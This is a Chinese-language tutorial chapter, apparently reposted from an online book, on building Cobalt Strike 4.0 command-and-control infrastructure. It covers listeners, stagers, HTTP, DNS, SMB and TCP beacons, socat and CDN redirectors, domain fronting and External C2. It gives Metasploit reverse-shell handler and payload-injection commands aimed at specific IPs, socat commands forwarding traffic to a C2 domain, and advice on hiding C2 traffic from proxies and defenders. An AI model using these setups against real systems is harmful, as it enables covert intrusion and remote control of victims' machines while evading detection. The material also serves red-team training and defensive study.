# Infrastructure（基础建设）

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike 4.0/2.Infrastructure/2.Infrastructure.html](http://book.iwonder.run/Tools/Cobalt Strike 4.0/2.Infrastructure/2.Infrastructure.html)

## 0x01 listener management(监听器管理)

一个 listener 配置一个 Cobalt strike payload，也只匹配一个 payload 控制器。在 Cobal Strike 中有如下三种监听器：

1.  egress：入口监听器
2.  peer-to-peer：通过父级 payload 使用
3.  alias：调用第三方的 payload 处理器

添加 listener 时确保每一个都其对应的名称，名称很重要，因为这样便于团队的其他成员去使用它。  以下列出了你可以创建的监听器类型： 

## 0x02 stager

stager 是一个用来和 C2 建立连接并下载 payload，然后执行 payload 的轻量级程序。

有时候目标环境限制了执行程序的大小，所以经常会制作比较轻量级的程序来执行 payload，常见的有 Powershell 一句话。

stageless 直接省略了下载 payload 的步骤，所以一般生成的 stageless 程序都是 exe 或者 dll 文件，相对 stager 来说要大得多，而且包含了一些特征。

在 CS4 中，stagers 不再作为最流行的工具来使用，但是一些由用户驱动的攻击仍然使用 stager。stager 将不再对其控制端进行权限认证，因此 stager 将变得不安全。stager 也变得脆弱了，如果它碰到了一些没有预期的情况时，可能 stager 会崩溃。这些 stagers 之所以还保留着是因为它们是为 Metasploit 框架服务的。stager 的代码内容也是很容易被发现的，而且任何一种内存扫描器也应该能够发现它们。CS 没有能力去在内存中清除这些特征或者是给他们添加混淆。

## 0x03 stager 工作流程举例

 通过打开一个带有宏的 word 文档来创建子进程，然后通过打开文档执行宏代码执行 stager 程序，接着 stager 将通过 HTTP 或 HTTPS 协议请求 C2 控制器，请求的 URI 上会带有一个校验值，在校验值通过检查后，服务器将会将 payload 传回，然后 stager 将开始执行该 payload。

如果你的 stager 是请求到 Metasploit Framework Handler 上，那么你将获得一个不够健壮（immature）的 payload。如果你是请求到 Coballt Strike 的 web 服务上，那么你将获得一个 beacon payload。

Metasploit Framework 作为控制器的话，payload 需要配置为 windows meterpreter reverse http 或者 reverse https。Metasploit 的攻击流程也是一样的，发送 GET 请求，然后下载 Cobalt strike beacon payload，所以 Cobal Strike 允许你使用一个 Metasploit Framework 生成的 exp 来传输 Cobal Strike beacon。

另外，Cobal Strike 还可以派生 shell 给 Metasploit（前提是有个 beacon shell）。

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.100
lhost => 192.168.1.100
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit 
```

Metasploit 也可以派生 shell 给 Cobal Strike（前提有一个 meterpreter）

```
msf exploit(handler) >  use exploit/windows/local/payload_inject
　　msf exploit(payload_inject) >  set PAYLOAD windows/meterpreter/reverse_http
　　msf exploit(payload_inject) > set DisablePayloadHandler true
　　msf exploit(payload_inject) > set LHOST 192.168.229.143
　　msf exploit(payload_inject) > set LPORT 1212
　　msf exploit(payload_inject) > set SESSION 1
　　msf exploit(payload_inject) > exploit 
```

这样就可以从 Cobal Strike 传递一个 session 给 Metasploit，也可以传递一个 session 从一个 Cobal Strike 实例给另外一个没有连接的 Cobal Strike 实例。

Cobal Strike 是用 foreign listener 来实现配置 payload handler 参数的。

## 0x04 HTTP Beacon 介绍

### 1\. 配置 HTTP Beacon:

可以设置连接到多个主机（域名、IPv4、IPv6 都可以，IPv6 需要标准格式[::]）
 配置代理(可选项)：
 配置完毕后在 Attacks - Web Drive-by - Scripted Web Delivery 菜单配置 web 服务：

点击 launch 后会生成 powershell 一句话，复制到目标主机运行这个 powershell 脚本：

Cobal Strike 将会与 http beacon 建立连接：


### 2\. HTTP Beacon 传输过程

场景举例：一个 C2 控制器、一个运行了 http beacon 的目标主机

http beacon 向 C2 控制器发送 GET 请求，判断有无内容返回：

> (1) 若 C2 无内容返回，那么 beacon 将会进行睡眠状态，之后 beacon 将会在一开始配置好的时间之后重新请求 C2。
> (2) 当 C2 返回了请求内容时，内容将会是一些被加密过的需要执行的 payload。

当 http beacon 执行完 payload 之后需要将结果回传给 Cobal Strike 时，它将使用 POST 请求，请求内容为 payload 执行的结果被加密后的密文。
如果 payload 执行后没有输出结果，那么将不会发送 POST 请求。

**HTTPS Beacon 的用法和 HTTP 一样，只是 HTTPS 使用了 SSL 证书而已**

## 0x05 Redirector(重定向器)

### 1\. 介绍 redirector


一般 redirector 设置在你的 Cobal Strike 实例和你的目标网络之间，redirector 会将流量转发至你的 Cobal Strike 实例。redirector 存在的意义是为了模糊你的 Cobal Strike 的 Team server 的位置，这相当于为你的 Cobal Strike team server 设置了多个 IP 地址。

你可以使用`iptables`、`socat`或者其他工具去转发流量到你的 Cobal Strike Team server。命令如下：

```
socat TCP4-LISTEN:80,fork TCP4:[team server]:80 
```

你也可以启用一个 Apache 或者 Nginx 服务作为你的 Cobal Strike 的反向代理来替代 redirector 的作用。

你还可以使用 CDN，比如 Amazon 的 Cloudfront 来作为一个 redirector 转发 https 流量到你的 Cobal Strike。

### 2\. 使用 socat 实现一个 redirector

环境说明：

*   c2：secure.losenolove.com
*   redirector：54.158.156.250, 34.207.207.199.101

    ```
    # 在 54.158.156.250 上执行如下命令
    # 先安装 socat
    sudo apt-get update && apt-get install socat
    #socat 转发
    sudo socat TCP4-LISTEN:80,fork TCP4:secure.losenolove.com:80 
    ```

    直接访问[http://54.158.156.250/bar](http://54.158.156.250/bar) ，然后在 Cobal Strike 的`web log`上就可以看到访问记录了

Cobal Strike 配置 redirectors：
在`HTTP HOSTS`里添加


### 3\. 使用 CDN 实现一个 redirector

CND Redirector 要求如下

1.  网站使用 SSL 证书
2.  配置允许使用 HTTP POST 和 GET 方法
3.  避免出现问题，需要在 C2 配置文件里设置允许使用 HTTP GET 方法下载任务和回传数据给 Cobal Strike
4.  禁用所有缓存选项（避免数据不转发到服务器）
5.  清楚地知道你传输的内容

    > 注：由于某些 CDN（比如 Cloudfront 会修改 cookie）在传输过程中可能会对 HTTP header 头部的内容进行修改。这本来没什么影响除非你的 C2 设置了通过 HTTP headr 的 Cookie 字段来传输数据给 Cobal Strike。所以对于 CDN 转发的内容你得清楚地知道。

使用 CDN Redirector 有一个比较好的东西需要了解，那就是 Domain Fronting(域前置)，可以参考深信服社区的一篇文章[Domain fronting 域名前置网络攻击技术](https://bbs.sangfor.com.cn/forum.php?mod=viewthread&tid=71715)

实际效果是 beacon 向一个信誉度比较高的网站发送请求时，设置 HTTP header 里的 Host 为我们在 CDN 配置完毕后获得的一个 CDN 的二级域名（比如 xxx.cloudfront.net），然后这个 HTTP 请求就会转发到 CDN 的地址，再转发到 C2 的地址。

如果目标主机使用了代理服务器向外界发送 HTTP 请求，那么在使用 Domain Fronting 时，代理服务器可能会检测到请求的 URI 和 Host 中的内容不一致，然后就会自动将 Host 的内容替换为 URI 中的域名，接着该请求就会发送给那个信誉度比较高的网站。然而如果你使用了 HTTPS，一般就不会出现这个问题。（有些企业会对 HTTPS 流量进行监测，如果被监测发现了，Host 头还是有可能会被纠正）

然而现在有些 CDN 自己开始对 SSL 流量进行监测去避免 Domain Fronting。但是使用 SSL 协议传输，严格地说是使用 TLS 协议传输的数据包中 HTTP 协议的外层有一层 SNI（Server Name Indication），SNI 告诉了 CDN 这个 HTTPS 请求应该发给谁（实际 SNI 的值与 Host 的内容一致），然后 CDN 监测到了就会纠正这个 HTTPS 请求

```
# SNI 举例：
Extension: server_name
    Type: server_name (0x0000)
    Length: 19
    Server Name Indication extension
        Server Name list length: 17
        Server Name Type: host_name (0)
        Server Name length: 14
        Server Name: www.github.com 
```

现在如果你想做`Domain Fronting`，那么可以直接在添加 Listener 的时候设置`HTTP Host Header`（可以参考 0x04 添加 Listener 那张图）。

## 0x06 Server Consolidation(巩固服务器)



1.  在 Cobal Strike4 中，你可以定义多个 egress listener（相当于内网入口）
2.  HTTP Port(Bind)用于以下场景：`Redirector`使用 80 端口，HTTP C2 则使用另外一个端口（即当前设置项的内容），实际流量是从 Redirector 的 80 端口进入，然后再转发到你设置的这个 listener 绑定的端口
3.  现在每一个 listener 都有一个可修改的的配置文件
4.  现在可以配置多个 TCP 和 SMB listener 了

## 0x07 DNS Beacon

### 1\. 介绍 DNS Beacon

DNS beacon 是通过 DNS 解析来访问 Cobal Strike Team Server 的，所以运行 Cobal Strike Team Server 的服务器需要关闭本地的，运行 Beacon 的主机会将 beacon 的标识符伪装成一个子域名。

DNS Beacon 举例：

1.  DNS Beacon 向本地 DNS 缓存查询是否有域名`1234.profiles.losenolove.com`的解析记录
2.  本地缓存未查询到时，本地 DNS 服务器将会向根服务器请求解析该域名，根域名服务器发现域名是`.com`的域名，便指示本地 DNS 服务器去`.com`域名服务器查询
3.  `.com`服务器收到解析请求后将解析请求转发给网站注册的域名服务器（此处是 godaddy）
4.  网站注册的域名服务器再将解析请求转发给`losenolove.com`的网站服务器（`Cobal Strike Team Server`）
5.  `Cobal Strike Team Server`收到解析请求后检查是否存在与该域名相关的任务在运行，如果有，通常情况下 Team Server 会将 payload 放置到响应内容中返回给本地 DNS 服务器，本地 DNS 服务器再转给 DNS Beacon；
6.  DNS Beacon 执行完相关命令后，将数据加密后再放置到一个子域名中（类似`1234.profiles.losenolove.com`中的 1234），然后再对该子域名发送 DNS 解析请求



> 这里相比 CS3 而言，CS4 的 DNS Beacon 可以设置`Redirector`。

`DNS Stager host`可以用于设置`Redirector`，`Port(Bind)`可以用于 redirector 的其他端口(默认为 53 端口)，而`Cobal Strike Team Server`则使用 53 端口

 鉴于 HTTP 可能存在无法访问的风险，新的 DNS Beacon 将不再使用 HTTP 通道，即不再使用 HTTP 下载 Payload，默认将使用`dns-txt`通道通过 DNS txt 记录解析传输至 Cobal Strike Team Server，然后通过 DNS A 请求返回 payload。在 Beacon 的操作终端上可以切换通道（channel）。但是 DNS 请求内容和返回内容限制了长度，所以 dns-txt 会最大化使用域名长度（根据配置设定）,`dns-txt`也是相对而言最好的。而 dns 和 dns6 则会对这种域名进行截断，因为在某些网络里，非常长的域名将会被自动拦截。

### 2\. 实现一个 DNS Beacon

 准备工作：

1.  申请一个域名并创建一个 A 记录给你的 Cobal Strike Team Server（即域名解析为 IP）
2.  创建一个 NS 记录给你申请的域名（解析子域名）

实例举例：
　　Team Server 域名：malwarec2.losenolove.com
　　创建一个 DNS Beacon listener:

linux 下可使用`dig +trace [域名]`查看域名的解析过程
在目标主机执行 powershell 一句话执行 DNS Beacon，Team Server 结果如下：

界面上没有主机信息显示是因为没有发送测试数据，可以直接右键点击`Interact`进行交互后获得主机信息。可以使用`sleep 5`修改心跳时间（默认 1min）

DNS 通道是一个被限制数据大小的通道，如果需要传输大文件，那么可能需要通过发起多次 DNS 解析请求来传输，比如执行截图命令、执行 Mimikatz，这将消耗很长时间。

## 0x08 SMB Beacon

### 1\. 介绍 SMB Beacon


SMB Beacon 使用命名管道通过父级 Beacon 进行通讯，当两个 Beacon 连接后，子 Beacon 从父 Beacon 获取到任务并发送。因为连接的 Beacons 使用 Windows 命名管道进行通信，此流量封装在 SMB 协议中通过 445 端口进行传输。

### 2\. 创建 SMB Beacon Listener



### 3\. 连接和断连 SMB Beacon

 在 Beacon 控制台上输入`link [host] [pipe name]`命令进行连接 Beacon 操作，输入`unlink [host] [pid]`命令进行断连 Beacon 操作。如果你断开了当前 Beacon 的连接，那么它与它的子级 Beacon 也会断开连接。而这个子级 Beacon 将会进入到一个等待父级 Beacon 连接的状态。当你连接到一个 Beacon 时，可能会出现错误代码提示，上图举例说明了几个。

| 错误代码 | 名称 | 描述 |
| --- | --- | --- |
| 2 | File Not Found | 没有可以连接的 Beacon |
| 5 | Access is Denied | 你没有权限连接到这个 Beacon/这个命名管道，如果是在远程主机上，那么你的 access token 可能无效或者没有权限访问，也可能是该管道被系统锁定了 |
| 53 | Bad Netpath | 说明 Beacon 与目标服务器并没有建立通信关系，只能说明目标服务器没有任何响应给你 |

### 3\. 创建一个 SMB 实例

接着上面的 DNS Beacon 执行如下操作：
创建一个 Cobal Strike Listener：

执行权限提升：


payload 将会通过 DNS Beacon 传输并执行。 
如果想要图形化地查看 Beacon 的关系，可以点击 Cobal Strike - Visualization > Pivot Graph 进行查看


## 0x09 TCP Beacon

### 1\. 介绍 TCP Beacon


TCP Beacon 和 SMB Beacon 很像，它也可以被一个父级 Beacon 所控制，父级 Beacon 可以是 TCP Beacon，也可以是 SMB Beacon。这里的`Bind to localhost only`用于你需要使用 TCP Beacon 进行主机渗透的权限提升或者横向渗透的情况。

### 2\. 连接和断开 Beacon

```
# 连接到一个 TCP Beacon
connect [host] [port]
# 断连一个 TCP Beacon，断连后将进入一个等待连接的状态
unlink [host] [pid] 
```

### 3\. 实例演示 TCP Beacon

基于之前的 DNS Beacon 创建 Listener：
 DNS Beacon 执行 Spawn as
 手动设置

payload 也是通过 DNS Beacon 传输的

橙色的线代表连接的是 SMB Beacon，蓝绿色的线则代表 TCP Beacon

## 0xA External C2

### 1\. 介绍 External C2


ExternalC2 是由 Cobalt Strike 提出的一套规范/框架，它允许用户根据需要对框架提供的默认 HTTP(S)/DNS/SMB C2 通信通道进行扩展。

1.  第三方控制器:负责创建与 Cobalt Strike TeamServer 的连接，并使用自定义 C2 通道与目标主机上的第三方客户端进行通信。
2.  第三方客户端:负责使用自定义的 C2 通道与第三方控制器进行通信，并将命令中转到 SMB Beacon。
3.  SMB Beacon:在受害者机器上运行的标准 Beacon。

深入学习可参考

*   [深入探索 Cobalt Strike 的 ExternalC2 框架](https://xz.aliyun.com/t/2239)
*   [external C2 官方帮助文档](https://www.Cobal Strike.com/help-externalc2)

    ### 2\. 实例演示

    此处使用官方示例程序进行演示，具体程序编译过程此处省略。
    创建监听器：
    
    windows 执行编译好的程序连接 Cobalt Strike Team Server：`example.exe 54.80.166.26 2222`
    Cobalt Strike Team Server 收到 Session：
    

